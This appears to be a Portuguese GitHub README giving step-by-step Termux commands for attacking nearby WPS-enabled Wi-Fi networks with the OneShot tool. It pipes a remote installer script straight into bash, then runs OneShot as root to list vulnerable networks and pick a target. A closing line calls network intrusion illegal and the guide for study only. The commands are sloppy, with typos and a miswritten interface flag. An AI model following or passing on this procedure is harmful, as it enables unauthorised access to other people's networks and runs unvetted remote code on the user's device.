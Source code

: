 # Testando-Vulnerabilidade-Wifi<br>
Esse teste consiste em acessar versão redes wp2>>>>> Terminal termux>>>>><br>
Vamos instalar uns programas ao inicializar>>>>>><br>
$ pkg update ´vamos atualizar repositório`<br>
vamos limpar a tela "clear"<br>
$ termux-change-repo<br>
ums nova janela irá abrir, marcar todas opções<br> 
<img src="id1.png"><br>
Próxima tela>>>>>>>>>>>><br>
<img src="id2.png"><br>
$ pkg upgrade<br>
$ pkg install git<br>
$pkg install python<br>
$pkg install python2<br>
Instalando pio pip fundamental para o próximo passe.<br>
$ pkg install --upgrade pio<br>
$ pkg install --upgrade pip<br>
Instalar a dependencias segue o git clone>>>>>>>>>><br>
curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash<br>
$ ls (pastas)<br>
cd OneShot (***preste atenção O maísculo e S maísculo***)<br>
$ ls<br>
Vamos agora chamar para rodar com sudo no python<br>
$ sudo python oneshot.py -l wlan0 -K <br> 
Termux vai listar possíveis redes vulneráveis de ser hackeadas.<br>
<img src="id3.png"><br>
serão numerados as conexões e escolher >>>>>>>>> alvo e irá comecar scanning.... <br><br>
<img src="id4.png"><br><br>
Lembra-se use para seus estudos, invasão de redes é uma violação e poderá responder pelos seus atos com a justiça.<br>

